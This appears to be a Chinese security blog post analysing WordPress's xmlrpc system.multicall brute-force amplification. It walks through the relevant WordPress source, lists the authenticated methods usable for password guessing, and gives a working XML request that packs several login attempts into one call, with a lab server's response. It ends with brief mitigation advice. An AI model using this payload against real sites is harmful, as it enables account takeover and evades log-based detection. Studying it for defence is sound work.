 ```yaml
---
layout: post
title: "WordPress 利用xmlrpc中的system.multicall接口进行快速爆破"
tags: [security, web]
---
```


xmlrpc 是 WordPress 中进行远程调用的接口，而使用 xmlrpc 调用接口进行账号爆破在很早之前就被提出并加以利用。近日 [SUCURI](https://blog.sucuri.net/2015/10/brute-force-amplification-attacks-against-wordpress-xmlrpc.html) 发布文章介绍了利用 xmlrpc 调用接口中的 `system.multicall` 来提高爆破效率，使得成千上万次的帐号密码组合尝试能在一次请求完成，在一定程度上能够躲避日志的检测。

WordPress 中关于 xmlrpc 服务的定义代码主要位于 `wp-includes/class-IXR.php` 和 `wp-includes/class-wp-xmlrpc-server.php` 中。基类 IXR_Server 中定义了三个内置的调用方法，分别为 `system.getCapabilities`，`system.listMethods` 和 `system.multicall`，其调用映射位于 `IXR_Server` 基类定义中：

``` php
function setCallbacks()
{
    $this->callbacks['system.getCapabilities'] = 'this:getCapabilities';
    $this->callbacks['system.listMethods'] = 'this:listMethods';
    $this->callbacks['system.multicall'] = 'this:multiCall';
}
```

而基类在初始化时，调用 setCallbacks() 绑定了调用映射关系：

``` php
function __construct( $callbacks = false, $data = false, $wait = false )
{
    $this->setCapabilities();
    if ($callbacks) {
        $this->callbacks = $callbacks;
    }
    $this->setCallbacks();  // 绑定默认的三个基本调用映射
    if (!$wait) {
        $this->serve($data);
    }
}
```

再来看看 `system.multicall` 对应的处理函数：

``` php
function multiCall($methodcalls)
{
    // See http://www.xmlrpc.com/discuss/msgReader$1208
    $return = array();
    foreach ($methodcalls as $call) {
        $method = $call['methodName'];
        $params = $call['params'];
        if ($method == 'system.multicall') {
            $result = new IXR_Error(-32600, 'Recursive calls to system.multicall are forbidden');
        } else {
            $result = $this->call($method, $params);
        }
        if (is_a($result, 'IXR_Error')) {
            $return[] = array(
                'faultCode' => $result->code,
                'faultString' => $result->message
            );
        } else {
            $return[] = array($result);
        }
    }
    return $return;
}
```

可以从代码中看出，程序会解析请求传递的 XML，遍历多重调用中的每一个接口调用请求，并会将最终有调用的结果合在一起返回给请求端。

这样一来，就可以将500种甚至是10000种帐号密码爆破尝试包含在一次请求中，服务端会很快处理完并返回结果，这样极大地提高了爆破的效率，利用多重调用接口压缩了请求次数，10000种帐号密码尝试只会在目标服务器上留下一条访问日志，一定程度上躲避了日志的安全检测。

通过阅读 WordPress 中 xmlrpc 相关处理的代码，能大量的 xmlrpc 调用都验证了用户名和密码：

``` php
    if ( !$user = $this->login($username, $password) )
        return $this->error;
```

通过搜索上述登录验证代码可以得到所有能够用来进行爆破的调用方法列表如下： 

    wp.getUsersBlogs, wp.newPost, wp.editPost, 
    wp.deletePost, wp.getPost, wp.getPosts, 
    wp.newTerm, wp.editTerm, wp.deleteTerm, 
    wp.getTerm, wp.getTerms, wp.getTaxonomy, 
    wp.getTaxonomies, wp.getUser, wp.getUsers, 
    wp.getProfile, wp.editProfile, wp.getPage, 
    wp.getPages, wp.newPage, wp.deletePage, 
    wp.editPage, wp.getPageList, wp.getAuthors, 
    wp.getTags, wp.newCategory, wp.deleteCategory, 
    wp.suggestCategories, wp.getComment, wp.getComments, 
    wp.deleteComment, wp.editComment, wp.newComment, 
    wp.getCommentStatusList, wp.getCommentCount, wp.getPostStatusList, 
    wp.getPageStatusList, wp.getPageTemplates, wp.getOptions, 
    wp.setOptions, wp.getMediaItem, wp.getMediaLibrary, 
    wp.getPostFormats, wp.getPostType, wp.getPostTypes, 
    wp.getRevisions, wp.restoreRevision, blogger.getUsersBlogs, 
    blogger.getUserInfo, blogger.getPost, blogger.getRecentPosts, 
    blogger.newPost, blogger.editPost, blogger.deletePost, 
    mw.newPost, mw.editPost, mw.getPost, 
    mw.getRecentPosts, mw.getCategories, mw.newMediaObject, 
    mt.getRecentPostTitles, mt.getPostCategories, mt.setPostCategories
    
这里是用参数传递最少获取信息最直接的 `wp.getUsersBlogs` 进行测试，将两次帐号密码尝试包含在同一次请求里，构造 XML 请求内容为：

``` xml
<methodCall>
  <methodName>system.multicall</methodName>
  <params><param>
    <value><array><data>

      <value><struct>
        <member>
          <name>methodName</name>
          <value><string>wp.getUsersBlogs</string></value>
        </member>
        <member>
          <name>params</name>
          <value><array><data>
            <value><string>admin</string></value>
            <value><string>admin888</string></value>
          </data></array></value>
        </member>
      </struct></value>

      <value><struct>
        <member>
          <name>methodName</name>
          <value><string>wp.getUsersBlogs</string></value>
        </member>
        <member>
          <name>params</name>
          <value><array><data>
            <value><string>guest</string></value>
            <value><string>test</string></value>
          </data></array></value>
        </member>
      </struct></value>

    </data></array></value>
  </param></params>
</methodCall>
```

将上面包含两个子调用的 XML 请求发送至 xmlrpc 服务端入口，若目标开启了 xmlrpc 服务会返回类似如下的信息：

``` xml
<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <params>
    <param>
      <value>
      <array><data>
  <value><array><data>
  <value><array><data>
  <value><struct>
  <member><name>isAdmin</name><value><boolean>1</boolean></value></member>
  <member><name>url</name><value><string>http://172.16.96.130/xampp/wordpress-4.3.1/</string></value></member>
  <member><name>blogid</name><value><string>1</string></value></member>
  <member><name>blogName</name><value><string>WordPress 4.3.1</string></value></member>
  <member><name>xmlrpc</name><value><string>http://172.16.96.130/xampp/wordpress-4.3.1/xmlrpc.php</string></value></member>
</struct></value>
</data></array></value>
</data></array></value>
  <value><struct>
  <member><name>faultCode</name><value><int>403</int></value></member>
  <member><name>faultString</name><value><string>用户名或密码不正确。</string></value></member>
</struct></value>
</data></array>
      </value>
    </param>
  </params>
</methodResponse>
```

从结果中可以看到在同一次请求里面处理了两种帐号密码组合，并以集中形式将结果返回，通过该种方式可以极大地提高帐号爆破效率。

当然了，这里不仅要讨论如何进行攻击还要考虑如何去防御这种情况。最直接的方式就是直接关闭 xmlrpc 功能（当然了也可以直接删除xmlrpc.php文件），但是 WordPress 并没有在后台提供关闭 xmlrpc 的功能，但是站长用户可以通过插件或者编码的方式来禁用。(插件可以使用 [Disable XML-RPC](https://wordpress.org/plugins/disable-xml-rpc/)）

### 参考链接

* [https://blog.sucuri.net/2015/10/brute-force-amplification-attacks-against-wordpress-xmlrpc.html](https://blog.sucuri.net/2015/10/brute-force-amplification-attacks-against-wordpress-xmlrpc.html)

